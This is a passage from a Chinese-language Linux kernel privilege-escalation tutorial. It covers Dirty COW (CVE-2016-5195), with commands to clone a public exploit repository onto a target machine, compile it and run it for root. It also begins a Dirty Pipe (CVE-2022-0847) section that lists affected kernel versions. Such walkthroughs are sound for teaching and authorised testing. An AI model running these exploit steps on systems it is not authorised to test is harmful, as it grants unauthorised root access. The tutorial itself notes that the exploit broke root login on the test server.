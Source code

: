 ### 3.2.3 登录账户

登录后，查看id，发现为root权限，即为提权成功，注意这里我使用云服务器测试完后，再次连接云服务器的时候，发现root密码被拒绝登录了，也就是root密码错误，但是我使用我设置的密码登录，依旧是错误的，这个需要注意。

![image-20230401182810236](assets/A3QvxCmn8aKqMbX.png)

### 3.2.4 利用另一个exp

https://github.com/gbonacini/CVE-2016-5195

1.下载脚本到目标机器：

```shell
git clone https://github.com/gbonacini/CVE-2016-5195.git
```

 2.编译成可执行文件

```shell
使用 g++ -Wall -PEDANTIC -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil 
或者直接输入 make 进行 
```

![img](assets/1669271807901-06083fc9-318d-447c-9a02-f7954d9483d9.png)

3.执行脚本

```shell
./dcow -s
./dcow -h
```

## 3.3 内核提权之Dirty Pipe(CVE-2022-0847)

### 3.3.1 漏洞介绍

**影响范围：**

Linux Kernel版本 >= 5.8

Linux Kernel版本 < 5.16.11 / 5.15.25 / 5.10.102
